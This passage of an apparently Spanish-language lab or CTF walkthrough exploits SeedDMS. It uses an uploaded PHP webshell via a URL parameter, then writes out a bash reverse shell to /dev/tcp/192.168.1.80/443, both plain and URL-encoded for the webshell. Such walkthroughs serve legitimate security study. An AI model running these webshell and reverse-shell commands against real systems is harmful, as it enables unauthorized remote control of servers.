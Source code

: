 ```xml
 290   │       updateNotifyTime = "86400"
 291   │       extraPath = ""
 292   │       maxExecutionTime = "30"
 293   │       cmdTimeout = "1"
 294   │     />
 295   │     <!--
...
```

También podemos mirar algunas tablas de la base de datos, para corroborar a qué directorio va a parar cada versión de documento.

```sql
MySQL [seeddms]> select id, document, orgFilename, version, dir from tblDocumentContent;
```

```sql
+----+----------+-------------+---------+-----+
| id | document | orgFilename | version | dir |
+----+----------+-------------+---------+-----+
|  4 |        4 | test.txt    |       1 | 4/  |
|  5 |        5 | test.txt    |       1 | 5/  |
|  6 |        4 | lfi.php     |       2 | 4/  |
|  7 |        4 | lfi.txt     |       3 | 4/  |
|  8 |        4 | rce.php     |       4 | 4/  |
+----+----------+-------------+---------+-----+
5 rows in set (0,006 sec)
```

Esta seria la manera de acceder al documento que subimos anteriormente y que contiene el código php que nos permite utilizar la webshell.

http://192.168.1.36/seeddms51x/data/1048576/4/4.php?cmd=id

-------------------------------------------------------------------------------

Este es el momento de intentar entablar la reverse shell. Esta sería la línea a utilizar:

```bash
bash -c "bash -i >& /dev/tcp/192.168.1.80/443 0>&1"
```
Hemos de recordar que hay que "urlencodear" los **>** y los **&** (! Muy IMPORTANTE!)

```bash
bash -c "bash -i %3e%26 /dev/tcp/192.168.1.80/443 0%3e%261"
```

Por lo tanto esta es la url a utilizar:

http://192.168.1.36/seeddms51x/data/1048576/4/4.php?cmd=bash -c "bash -i %3e%26 /dev/tcp/192.168.1.80/443 0%3e%261"

![rce.png](rce.png)
